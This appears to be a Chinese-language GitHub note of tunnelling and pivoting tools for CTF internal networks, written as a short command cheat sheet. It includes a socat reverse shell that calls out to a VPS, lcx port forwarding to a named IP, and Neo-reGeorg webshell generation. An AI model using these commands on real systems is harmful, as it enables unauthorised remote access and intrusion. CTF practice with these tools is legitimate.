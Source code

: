 # 记录一些代理工具

>目前是用与ctf的内网环境代理出内网。

### socat
>适合?。。。

地址：http://www.iteait.com/archives/603

socat下载:地址
https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

直接wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

```

靶机：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:vps:3333

主机：socat file:`tty`,raw,echo=0 tcp-listen:3333
```

### lcx

将内网的8005端口代理出vps的81端口
```
gcc lcx.c -o lcx

靶机: ./lcx -m 3 -h1 1.116.136.120 -h2 127.0.0.1 -p1 81 -p2 8005
vps:  ./lcx -m 2 -p1 2333 -p2 8005
```

### NeoreGeorg

>2021长安线下使用过 php环境配置浏览器代理

https://github.com/L-codes/Neo-reGeorg

详细使用看readme.md
```
python neoreg.py generate -k password #生成不同连接密码的木马
 
python3 neoreg.py -k password -u http://xx/tunnel.php   #木马

然后就代理到127.0.0.1:1080 然后配合浏览器代理去访问就欧克
```
![image](https://user-images.githubusercontent.com/63966847/137916175-66737e29-ed2c-4930-930f-10c401f718bf.png)


### stowaway 
https://mp.weixin.qq.com/s?__biz=Mzg4NTA0MzgxNQ==&mid=2247485237&idx=1&sn=b7c909bddd742f351ea985eb05dfebc4&chksm=cfafa03df8d8292b6fb20bb6ad9ac650c86a1d708e089aa5abfd33994ddddd2cdb01938d7dec&mpshare=1&scene=23&srcid=1115YPb8VRvCLwiS8wTREoxL&sharer_sharetime=1636967942759&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd

### 突破内网渗透中的访问策略限制
https://gv7.me/articles/2019/break-through-lan-segment-limit/

